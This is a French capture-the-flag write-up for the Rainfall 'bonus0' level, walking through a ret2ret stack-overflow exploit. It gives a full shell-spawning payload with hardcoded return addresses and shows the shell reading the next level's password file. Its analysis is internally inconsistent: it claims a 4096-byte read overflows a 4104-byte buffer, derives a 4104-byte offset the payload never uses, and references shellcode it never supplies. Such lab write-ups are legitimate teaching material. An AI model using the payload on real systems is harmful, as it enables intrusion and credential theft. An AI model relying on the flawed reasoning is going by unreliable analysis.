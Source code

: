 # Write-up : Rainfall - Bonus0 (ret2ret / ret2libc)

## 🎯 Objectif

Exploiter le binaire `bonus0` pour obtenir un shell, via un **ret2ret** ou **ret2libc**.

---

## 🔍 Analyse du binaire

### Fonction `p()`

```asm
0x080484b7 <+3>:    sub    $0x1018,%esp   ; réserve 4120 octets (stack frame)
0x080484d0 <+28>:   lea    -0x1008(%ebp),%eax   ; buffer de 4104 octets
0x080484e1 <+45>:   call   read(0, eax, 0x1000) ; lit 4096 octets dans le buffer
```

📌 Le `read()` lit directement dans un buffer local de grande taille. Cela permet un **overflow contrôlé** vers le `RET` de `p()` si on dépasse les 4104 octets.

---

## 🔢 Calcul des offsets

### 🧠 Premier `read()` (via 1er appel à `p()`)

* Ce buffer est utilisé dans un `strcpy()` puis `strcat()`
* Objectif : remplir jusqu'à `strlen(buffer1)` = 20, pour que l’instruction suivante tombe au bon endroit :

  ```asm
  mov %dx, (buffer1 + strlen(buffer1))
  ```
* ✅ **Offset = 20 octets** permet d’aligner parfaitement

### 🧠 Deuxième `read()` (2e appel à `p()`)

* On cherche à écraser le `RET` de `main()` via `strcat()`
* Calcul : `RET = ebp + 4`, `buffer = ebp - 0x1008`
  → Offset total = `0x1008 + 4 = 4104`
* ✅ **Offset = 4104 octets** pour atteindre le `RET`

---

## 🚀 Exploitation : ret2ret / redirection de retour

### Final payload :

```bash
(python -c 'print "A"*20'; python -c 'print "AAAAAAAAA" + "\xcb\x85\x04\x08" + "\xfc\xfb\xff\xbf" + "AAA"'; cat) | ./bonus0
```

### Décomposé :

* `"A"*20` → premier `read()` (alignement `strlen = 20`)
* `"A"*9` → padding
* `\xcb\x85\x04\x08` → `0x080485cb` = instruction `ret` dans `main()`
* `\xfc\xfb\xff\xbf` → `0xbffffbfc`, adresse vers le shellcode (ou `/bin/sh`) dans la stack
* `"AAA"` → padding

> ✅ Cela écrase le `RET` de `main()` → saute vers `ret` → puis `ret` vers notre adresse contrôlée

C’est un **ret2ret** classique 🌀

---

## 🧠 Bilan pédagogique

1. On a commencé par comprendre la structure du binaire
2. On a repéré un buffer overflow via `read()` sans limites
3. On a cherché les bons **offsets** (20, 4104)
4. On a compris que le `RET` final est celui de `main()`
5. On a redirigé le `RET` vers un `ret`, puis vers un shellcode ou `/bin/sh`

---

## ✅ Résultat attendu

```bash
$ whoami
bonus0
$ cat /home/user/bonus1/.pass
<cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9>
```

---

## 🎉 Bravo

Si ce payload vous donne un shell, alors vous avez :

* Contrôlé la stack
* Écrasé le retour
* Redirigé l’exécution